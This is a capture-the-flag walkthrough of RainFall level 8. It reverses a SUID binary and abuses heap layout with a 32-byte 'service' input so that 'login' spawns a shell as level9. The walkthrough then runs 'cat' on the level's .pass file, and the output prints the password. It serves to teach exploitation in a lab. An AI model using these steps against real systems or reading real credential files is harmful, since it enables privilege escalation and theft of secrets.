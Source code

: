 # Level 8 Walkthrough

In this level, we exploit a logic flaw in how heap memory is allocated and accessed to modify memory outside of its bounds. By doing so, we trick the program into calling `system("/bin/sh")` and gain access to the next user's shell. This challenge showcases the subtle power of heap-based logic bugs.

---

## Who am I?

Before diving into the binary’s behavior, we identify our current user context to confirm the environment:

```bash
level8@RainFall:~$ id
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
```

## Where am I?

Let’s explore the directory to see what we’re working with:

```bash
level8@RainFall:~$ ls -l
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8*
```

We find a SUID binary owned by `level9`. Our mission is to exploit this binary in order to retrieve the contents of `/home/user/level9/.pass`.

---

## Binary Behavior

We begin by launching the binary to get an idea of its runtime behavior:

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
```

The program displays two `NULL` pointers followed by a prompt for user input. At this stage, the purpose of these pointers is unknown. We suspect they relate to internal state, but need further inspection.

To get a clearer picture, we reverse-engineered the binary using Ghidra. Here is the decompiled `main()` function:

```c
undefined4 main(void)
{
  char cVar1;
  char *pcVar2;
  char *pcVar3;
  char *pcVar4;
  int iVar5;
  uint uVar6;
  byte *pbVar7;
  byte *pbVar8;
  bool bVar9;
  undefined1 uVar10;
  undefined1 uVar11;
  bool bVar12;
  undefined1 uVar13;
  byte bVar14;
  byte local_90 [5];
  char local_8b [2];
  char acStack_89 [125];

  bVar14 = 0;
  do {
    printf("%p, %p \n",auth,service);
    pcVar4 = fgets((char *)local_90,0x80,stdin);
    ...
```

The function is quite long, but the key logic revolves around parsing commands like `auth`, `reset`, `service`, and `login`. We identified that the two `NULL` pointers displayed at the beginning correspond to two global variables: `auth` and `service`. These are manipulated by the commands the user types.

For clarity, here is a simplified version of the control flow:

```c
if (strncmp(input, "auth", 5) == 0) {
    auth = malloc(4);
    memset(auth, 0, 4);
    if (strlen(input + 5) < 31) {
        strcpy(auth, input + 5);
    }
}

if (strncmp(input, "reset", 5) == 0) {
    free(auth);
}

if (strncmp(input, "service", 7) == 0) {
    service = strdup(input + 7);
}

if (strncmp(input, "login", 5) == 0) {
    if (*(auth + 32) != 0) {
        system("/bin/sh");
    } else {
        fwrite("Password:\n", 1, 10, stdout);
    }
}
```

Now that we have a clearer understanding of the program logic, we can reason through a potential path to exploitation.

---

## Understanding the Exploit

Let’s break down the goal and how we can manipulate the program to reach it.

### Objective

The critical condition is:

```c
if (*(auth + 32) != 0)
```

This tests whether the **33rd byte** of `auth` (i.e., `auth[32]`) is non-zero. If it is, the program spawns a shell with `system("/bin/sh")`.

### Vulnerability

Here’s the key:

* `auth` is allocated with only **4 bytes**, and initialized to zero.
* The `service` buffer is created using `strdup()`, which copies user input into a new allocation placed **after** `auth` on the heap.
* A long input to `service` allows us to **overwrite adjacent memory**, including `auth[32]`.

So, if we can write 32 bytes into `service`, we can overflow into `auth[32]` and set it to a non-zero value, which triggers the shell when calling `login`.

### Important Detail

However, there’s a condition on the `auth` command: it only performs `strcpy()` if the string after `auth` is less than 31 characters. If this condition is not met, `auth` remains `NULL`. Then, the program crashes when trying to read from `auth[32]`.

So to proceed safely:

* The string after `auth` must be short (e.g., `test`)
* The string after `service` must be at least 32 characters to reach `auth[32]`

---

## Crafting the Exploit Step-by-Step

We now test the exploit step by step, applying what we just reasoned about.

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
```

🔹 At this point, both `auth` and `service` are `NULL`. No memory has been allocated yet.

---

```bash
auth test
0x804a008, (nil)
```

🔹 This creates a 4-byte `auth` buffer on the heap (at address `0x804a008`). The string `"test"` is copied into it. Since the input is less than 31 characters, the `strcpy()` executes correctly.

Memory layout:

```bash
0x804a008 : 't'
0x804a009 : 'e'
0x804a00A : 's'
0x804a00B : 't'
```

---

```bash
service $(python -c 'print("A"*32)')
0x804a008, 0x804a018
```

🔹 The program allocates a new buffer for `service` at `0x804a018` and copies 32 `A` into it. Because the chunk is right after `auth`, this overflows into the next chunk, touching `auth[32]`.

Visualisation mémoire (simplifiée) :

```bash
...    <- auth (4 bytes) at 0x804a008
...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA <- service (32 A) at 0x804a018
^ overflows to byte 33 of auth (auth[32])
```

This means: `auth[32] = 'A'` → so `*(auth + 32) != 0`.

---

```bash
login
```

🔹 The program checks `auth[32]`, sees that it’s non-zero (`'A'` = `0x41`), and calls `system("/bin/sh")`.

We now have a shell:

```bash
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

Exploit succeeded.

---

## Files in this repository

Here’s what this level’s directory contains:

* `flag.txt`: file containing the retrieved flag
* `decompiled_level8/`: folder containing the reconstructed C code from Ghidra and a simplified version
* `asm_analysis.md`: GDB analysis of the binary

---

## Conclusion

This level highlights a subtle but powerful logic flaw in heap memory handling:

* By overflowing memory allocated after `auth`, we modify `auth[32]` indirectly
* This causes the condition in `login` to trigger `system("/bin/sh")`

Through a simple abuse of heap layout and input length, we obtain a shell as `level9` and access the protected flag.

